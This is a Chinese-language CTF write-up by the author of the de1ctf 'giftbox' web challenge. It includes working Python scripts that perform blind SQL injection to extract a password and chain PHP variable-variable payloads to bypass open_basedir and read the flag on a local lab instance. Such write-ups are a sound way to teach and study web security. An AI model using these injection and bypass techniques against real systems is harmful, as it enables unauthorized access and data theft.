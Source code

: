 # de1ctf web giftbox

## 前言

这道题的最初版本是在 `国赛2019半决赛Build环节` 出的，赛后问了好几个师傅都说没遇到这题，然后打算在 `de1ctf` 把这道题重新放上，但是担心万一半决赛真的已经出过这题，那就很可能被喷，所以还是对最初版本进行小改动，让原来的 `exp` 失效。

后来 `de1ctf` 第二天放了这题，就有师傅说这题是 `国赛2019西北赛区Web5`，不过还好做了小小改动。然后，据说这题效果不错。

## 最初版本

[impakho/ciscn2019_giftbox](https://github.com/impakho/ciscn2019_giftbox)

## 改动

1. 题目国际化，中文改成英文。
2. 限制注入用户名和密码的长度。
3. 修改登录结果回显信息，方便注入判断。

## WriteUp

![1](./img/1.png)

题目页面类似一个网页沙盒。

![2](./img/2.png)

在源代码 `main.js` 里找到一个提示，提供了 `otp` 的 `python库` 和 `totp` 的参数，方便写脚本。

![3](./img/3.png)

同样是 `main.js` 里，可以找到用来生成 `totp` 的 `key` 。

出题人注：服务端时间与客户端时间相差大于 `15秒` ，需要先计算正确的 `totp` 才能调用 `shell.php` 。

![4](./img/4.png)

查看 `usage.md` 可以看到命令用法， `login` 存在注入，没有过滤，用户名和密码长度限制 `100`。

爆破密码脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff
while True:
    mid = int((right - left) / 2 + left)
    if mid == left:
        length = mid
        break
    username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
    password = "b"
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    res = s.get(payload).text
    if 'incorrect' in res:
        left = mid
    else:
        right = mid
print(length)

real_password = ''
for i in range(1, length+1):
    left = 0x20
    right = 0x7e
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            real_password += chr(mid)
            break
        username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (i, mid)
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(real_password)
    if len(real_password) < i:
        print('No.%d char not in range' % i)
        break
```

![5](./img/5.png)

得到密码：`hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}`

![6](./img/6.png)

密码里提示有个隐藏命令 `sh0w_hiiintttt_23333` ，可以得到提示 `eval` 在 `launch` 的时候被调用。

`launch` 前需要先用 `targeting` 设置，不过对输入有限制，这里可以 `fuzz` 一下，得知 `code` 限制 `a-zA-Z0-9` ，position限制 `a-zA-Z0-9})$({_+-,.` ，而且两者的长度也有限制。

这里需要用 `php可变变量` 构造和拼接 `payload` 。

构造用来 `getflag` 的 `payload` ，绕过 `open_basedir` 的限制，写个脚本就能 `getflag` 。

`getflag` 脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text

login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a','chr')
targeting('b','{$a(46)}')
targeting('c','{$b}{$b}')
targeting('d','{$a(47)}')
targeting('e','js')
targeting('f','open_basedir')
targeting('g','chdir')
targeting('h','ini_set')
targeting('i','file_get_')
targeting('j','{$i}contents')
targeting('k','{$g($e)}')
targeting('l','{$h($f,$c)}')
targeting('m','{$g($c)}')
targeting('n','{$h($f,$d)}')
targeting('o','{$d}flag')
targeting('p','{$j($o)}')
targeting('q','printf')
targeting('r','{$q($p)}')
print(launch())
```

![7](./img/7.png)

Flag：`de1ctf{h3r3_y0uuur_g1fttt_0uT_0f_b0o0o0o0o0xx}`